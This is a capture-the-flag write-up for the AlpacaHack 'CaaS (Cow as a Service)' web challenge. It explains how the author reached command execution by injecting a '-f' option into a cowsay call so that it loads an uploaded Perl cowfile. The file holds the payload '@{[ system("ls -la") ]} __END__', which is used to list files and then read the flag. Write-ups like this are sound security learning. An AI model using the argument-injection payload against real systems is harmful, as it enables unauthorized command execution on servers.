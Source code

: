 ```yaml
---
title: "AlpacaHack Round 2 (Web) - CaaS (Cow as a Service)"
pubDate: "2024-11-07"
description: "CTF challenge writeup."
tags:
  - writeups
  - ctf
  - perl
  - command injection
toc: true
math: true
---
```


## Overview

I've initially thought that this is a JavaScript command injection challenge, since that we have the flag located at the root and we have a binary that is being executed (`/usr/games/cowsay`). I began to read the documentation of [google/zx](https://github.com/google/zx), but after a while I didn't find anything that could lead to command injection.

Then I've started to explore the binary itself `/usr/games/cowsay`, I also setup a verbose output for `ZX` as I've read the documentation.

```js
await $({
    verbose: true,
    cwd: "public/out",
    timeout: "2s",
})`/usr/games/cowsay ${message} > ${uuid}`;
```

I've read the [manpage for the binary](https://linux.die.net/man/1/cowsay), where I've noticed few options:

- cowsay [-e eye_string] [-f cowfile] [-h] [-l] [-n] [-T tongue_string] [-W column] [-bdgpstwy] 

I've exprimeneted a bit with the `-eTW` options but that yielded nothing, then I've tried the `-l` and `-f` options. The `-l` option lists
the cowfiles located in `/usr/share/cowsay/cows/*.cow` those are templates for the `cowsay`. Since that we can write a file to `/app/public/out/*` I thought that we can create a cow file that would list the root directory, so I've went to see what are the specifications of that cowfile.

I've explored few github projects with additional templates for cowsay and how they are structured, here is an example template:

```
##
## acsii picture from http://www.ascii-art.de/ascii/ab/bear.txt
##
$eye = chop($eyes);
$the_cow = <<EOC;
 $thoughts
  $thoughts
     .--.              .--.
    : (\\ ". _......_ ." /) :
     '.    `        `    .'
      /'   _        _   `\\
     /     $eye}      {$eye     \\
    |       /      \\       |
    |     /'        `\\     |
     \\   | .  .==.  . |   /
      '._ \\.' \\__/ './ _.'
      /  ``'._-''-_.'``  \\
EOC
```

And as the man page says `A cowfile is made up of a simple block of perl(1) code`, so we can write a perl to the `/out` directory and try to execute it with `-f` option.

But since that we have bunch of symbols before the text we control like:

```
 _______________
< waht the fuck >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

I wasn't sure that if this file is going to run (it didnt). 

```
web-1  | $ /usr/games/cowsay -f/app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 > e50643f3-8ffe-4772-bab7-3896acbeb65b
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 5, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | cowsay: Search pattern not terminated at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6.
```

> Note: I didn't use Burp/Caido, I just went to the input field and placed my payloads.

So I went to see if there are stuff like string formats in Perl, and I found the weirdly named [Baby cart](https://metacpan.org/pod/perlsecret#Baby-cart) for interpolation. And I've tried with it with the following payload.

```
@{[ system("ls -la") ]}
```

And I've done it, I made the perl to error again. Now I was at a dead end and I got little help with it, I discovered the `__END__` bullshit, now this is a special Perl literal that ends the script and that was the thing that I was missing. So in the end the payload became:

```
@{[ system("ls -la") ]} __END__
```

And then I would get the UUID and use it again as

```
-f/app/public/out/UUID
```

To get the output:

```
total 1072
drwxrwxrwt 1 root root 32768 Nov  7 09:24 .
drwxr-xr-x 1 root root  4096 Nov  7 06:56 ..
-rw-r--r-- 1 root root     0 Aug 25 11:38 .gitkeep
-rw-r--r-- 1  404  404    13 Nov  7 07:52 011869a0-aaf5-47e2-b6da-7d9bbb82f567
-rw-r--r-- 1  404  404    13 Nov  7 07:25 014eb95c-17f2-45bd-85df-c7714a14e68e
-rw-r--r-- 1  404  404   175 Nov  7 08:30 028ad084-a645-4ef5-b0de-8e8516b2aab6
-rw-r--r-- 1  404  404    13 Nov  7 07:40 02cdb7a8-8d39-494b-84cc-860ee5dd7f3f
<ANOTHER 30k UUID>
 __
<  >
 --
```

And then we can simply `cat` the flag.

> Note: You don't even need the weirdly  named stuf in "Perl secret operators and constants", because it turns out that this is not even in perl itself, thanks to the users of StackOverflow that are always suggesting 3rd party solutions to simple things!